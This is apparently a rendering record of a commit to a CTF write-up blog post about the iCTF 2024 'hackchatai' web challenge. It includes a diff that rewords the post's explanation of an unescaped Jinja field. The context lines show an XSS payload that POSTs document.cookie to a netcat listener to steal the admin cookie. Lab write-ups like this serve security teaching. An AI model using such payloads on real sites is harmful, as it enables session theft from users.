

Before and after one commit to 1337kiwi/1337kiwi.github.io, a Jekyll site: the page built from _posts/2024-11-23-ictf-web.md, in a window 1280 px wide and 900 px high, scrolled down 4442 px. Shown: the whole window, without its empty margins (300-979 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Explained chat[0] better

```diff
--- a/_posts/2024-11-23-ictf-web.md
+++ b/_posts/2024-11-23-ictf-web.md
@@ -121,7 +121,7 @@ After looking over the other code, I noticed that in `admin_page_template.py`, w
 
 ![admin_template.png]({{ site.baseurl }}/assets/ctf/ictf-2024/hackchatai/admin_template.png)
 
-Huh. chat[0] is marked as "safe", which means it won't be automatically escaped by Jinja. This means we can inject scripts in chat[0] and they will execute. I set up a local netcat listener, and sent a payload which should exfiltrate the admin cookie.
+Huh. chat[0] (the first message in chat history) is marked as "safe", which means it won't be automatically escaped by Jinja. This means we can inject scripts in the first message we send and they will execute. I set up a local netcat listener, and sent a payload which should exfiltrate the admin cookie.
 
 `i need a human <script>fetch('http://127.0.0.1:4444', {method: 'POST',mode: 'no-cors',body:document.cookie});</script>`
 
```
